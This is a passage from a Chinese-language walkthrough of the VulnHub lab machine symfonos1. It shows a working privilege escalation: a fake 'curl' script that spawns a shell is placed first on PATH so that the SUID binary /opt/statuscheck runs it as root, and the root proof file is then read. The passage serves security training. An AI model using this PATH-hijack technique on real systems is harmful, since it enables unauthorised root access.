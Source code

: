 ![](../../../../../../assets/img/安全/实验/靶机/VulnHub/symfonos/symfonos1/23.png)

看上去是使用 curl 访问本地网页, `curl -I http://localhost`

这里可以写一个自定义的 curl 文件,让其提权
```
cd /tmp
echo $'#!/bin/sh\n/bin/sh' > curl
chmod +x curl
export PATH=$(pwd):$PATH
/opt/statuscheck
whoami
cd /root
ls
cat proof.txt
```
